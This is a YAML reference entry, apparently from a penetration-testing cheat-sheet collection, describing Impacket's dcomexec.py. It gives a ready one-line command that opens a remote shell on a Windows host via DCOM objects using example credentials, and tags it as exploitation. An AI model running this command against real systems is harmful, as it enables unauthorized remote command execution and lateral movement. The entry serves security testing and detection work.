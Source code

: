 ```yaml
---
description: |
  Impacket's dcomexec.py provides an interactive shell on the Windows host similar to wmiexec.py, but using varying DCOM endpoints.

  Currently supports MMC20.Application, ShellWindows, and ShellBrowserWindow DCOM objects.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

  	DCOM Object: MMC20
command: |
  python3 dcomexec.py -object MMC20 test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - DCOM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/
---
```

